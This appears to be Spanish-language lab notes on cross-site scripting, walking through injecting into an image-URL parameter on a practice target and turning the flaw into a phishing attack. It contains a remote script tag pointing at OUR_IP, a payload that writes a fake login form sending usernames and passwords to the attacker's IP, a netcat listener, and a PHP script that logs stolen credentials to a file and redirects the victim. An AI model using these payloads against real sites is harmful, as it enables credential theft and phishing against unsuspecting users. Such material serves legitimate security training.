 ## Cargando un script remoto
Una forma común de cargar un script es con las etiquetas: 
```html
<script src="http://OUR_IP/script.js"></script>
```


### Ejemplo de phishing
#### Url: `$target/phising`
Tenemos una página web que nos "muestra" cualquier imagen que le pasemos por url. Si le pasamos el parámetro hola, en el navegador se crea una petición web como la que sigue: `http://$target/phishing/index.php?url=hola`. Probamos con distintas inserciones
- Inserción: `hola` -> Renderiza  `<img src="prueba">`
- Inserción: `hola" onerror="alert('XSS!')">` -> Renderiza `<img src='hola" onerror="alert('XSS!')">'>`. Se muestra en la pantalla `'>`, lo cual nos indica que el carácter `'` no está escapado correctamente. 
- Inserción: `'hola" onerror="alert('XSS!')">` -> Renderiza `<img src=''hola" onerror="alert('XSS!')">'>` y ya genera una inyección XSS
- Comprobamos que también genera inyección xss el siguiente payload: `'><script>alert("¿XSS detectado?");</script>`
- Creamos un payload más elaborado, de manera que en la página se crea un formulario al que se envía la información de nuestro lado, quedando así el payload: 
	```html
	'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.108><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
	```

#### Url: `http://$target/phishing/send.php`
En esta página nos aseguran que el campo que pasemos como enlace será clicado por un tercero, por lo que debemos construir un enlace a medida con la información anteriror. 
- Nos ponemos en escucha en el puerto 80
	```
	nc -nlvp 80
	```
- Copiamos la url del  payload generado  anteriormente y lo envíamos como parámetro, recibiendo las credenciales
Podríamos haber hecho algo un poco más elaborado, para recoger las credenciales y que el usuario no notase ninguna interacción rara. Para ello 
- Crearíamos un `index.php` con el siguiente contenido: 
	```php
	<?php
	if (isset($_GET['username']) && isset($_GET['password'])) {
	    $file = fopen("creds.txt", "a+");
	    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
	    header("Location: http://10.129.15.214/phishing/index.php");
	    fclose($file);
	    exit();
	}
	?>
	```
- Y crearíamos un server php escuchando en el puerto 80
	```bash
	php -S 0.0.0.0:80
	```
